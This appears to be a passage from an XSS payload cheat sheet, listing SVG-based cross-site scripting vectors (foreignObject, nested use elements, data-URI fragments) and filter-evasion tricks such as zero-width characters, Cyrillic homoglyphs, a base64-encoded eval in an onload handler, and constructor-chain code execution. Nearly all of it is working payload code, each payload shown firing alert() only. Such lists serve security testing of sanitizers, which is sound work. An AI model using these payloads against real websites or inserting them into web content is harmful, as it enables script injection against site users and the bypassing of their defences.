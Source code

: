 ### Foreign Object XSS
```html
<svg xmlns:xlink="http://www.w3.org/1999/xlink">
<foreignObject>
<use xlink:href="data:text/html,<script>alert('foreignObject XSS')</script>"/>
</foreignObject>
</svg>
```

### Nested Use Elements
```html
<svg xmlns:xlink="http://www.w3.org/1999/xlink">
<defs>
<g id="level1">
<use xlink:href="#level2"/>
</g>
<g id="level2">
<script>alert('Nested SVG use XSS')</script>
</g>
</defs>
<use xlink:href="#level1"/>
</svg>
```

### Fragment Identifier XSS
```html
<svg xmlns:xlink="http://www.w3.org/1999/xlink">
<use xlink:href="data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><script>alert('Fragment XSS')</script></svg>#fragment"/>
</svg>
```

---

## 💀 Advanced Obfuscation Techniques

### Zero-width Character Injection
```javascript
a‌l‍e⁠r‌t(1) // Contains invisible Unicode characters (\u200b, \u200c, \u200d, \u2060, \ufeff)
```

### Homoglyph Substitution
```html
<sсrіpt>аlеrt(1)</sсrіpt> // Uses Cyrillic characters that look like Latin
```

### SVG + Base64 + Emoji + Zero-width
```html
<svg onload="eval(atob('YeKBoGzigItl4oCMcuKAjXTigI0o4oGgMe+7vynvu78='))">🎯💀👻🔥</svg>
```

### Constructor Chain Exploits
```javascript
Math.random().constructor('alert(1)')()
[]['fill']['constructor'](unescape('%61%6C%65%72%74(1)'))()
Object.entries(1)['constructor']['constructor']('alert(1)')()
Array.from.constructor('alert(1)')()
String.fromCharCode.constructor('alert(1)')()
Number.constructor.constructor('alert(1)')()
Date.constructor.constructor('alert(1)')()
RegExp.constructor.constructor('alert(1)')()
```

---